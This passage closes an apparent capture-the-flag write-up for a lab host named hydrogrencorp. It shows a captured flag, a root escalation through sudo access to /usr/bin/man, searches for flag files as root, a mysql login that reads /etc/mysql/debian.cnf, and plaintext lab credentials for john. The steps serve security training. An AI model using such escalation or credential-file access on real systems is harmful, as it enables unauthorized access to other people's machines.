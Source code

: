 We got the last flag `flag{a260af638f07d39c838810eda005ceb3}`

### Second Way

#### Privesc

For the second way is just straightforward, follow on the first way after use `sudo -l`

```bash
john@hydrogrencorp:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User john may run the following commands on this host:
    (root) /usr/bin/man
```

We can get all `flag2, flag4 and flag5`

```bash
root@hydrogrencorp:/usr/share/man# find / -name "flag2.txt" 2>/dev/null
/usr/share/nginx/www/wordpress.bak/flag2.txt
/usr/share/nginx/www/wordpress/flag2.txt
root@hydrogrencorp:/usr/share/man# find / -name "flag4.txt" 2>/dev/null
/root/flag4.txt
root@hydrogrencorp:/usr/share/man# mysql --defaults-file=/etc/mysql/debian.cnf
```

We got all flag huhu.

## Bonus

For the flag 5, we also can use phpmyadmin website account or mysql command to find it by using credentials `john:justin`

![](/images/writeup/internship/hidrogen/theend.gif)




